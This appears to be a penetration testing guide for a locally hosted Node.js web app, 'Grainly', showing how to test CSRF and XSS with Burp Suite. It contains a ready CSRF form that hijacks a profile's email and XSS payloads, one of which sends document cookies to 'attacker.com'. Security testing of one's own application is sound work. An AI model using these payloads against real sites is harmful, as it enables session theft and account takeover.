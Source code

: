 # 🔍 Burp Suite Penetration Testing Guide - Grainly

## 🎯 **Target Application**
- **Backend API**: `http://localhost:5000`
- **Frontend**: `http://localhost:5173`
- **Technology**: Node.js, Express, MongoDB, JWT

## 🚨 **Critical Vulnerabilities to Test**

### **1. CSRF (Cross-Site Request Forgery)**

#### **Testing Methodology**
```http
# State-changing endpoints to test
POST /api/auth/register
POST /api/users/profile
PUT /api/users/profile
POST /api/bookings
POST /api/contact
POST /api/auth/forgot-password
```

#### **Burp Suite Steps**
1. **Proxy → Intercept** requests to these endpoints
2. **Send to Repeater** for manipulation
3. **Remove Authorization headers** and test
4. **Create malicious HTML** forms to test CSRF

#### **CSRF Payload**
```html
<form action="http://localhost:5000/api/users/profile" method="POST">
  <input type="hidden" name="name" value="Hacked User">
  <input type="hidden" name="email" value="hacker@evil.com">
  <input type="submit" value="Click to win!">
</form>
```

### **2. XSS (Cross-Site Scripting)**

#### **Testing Payloads**
```javascript
// Basic XSS
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

// Advanced XSS
<script>fetch('http://attacker.com?cookie='+document.cookie)</script>
```
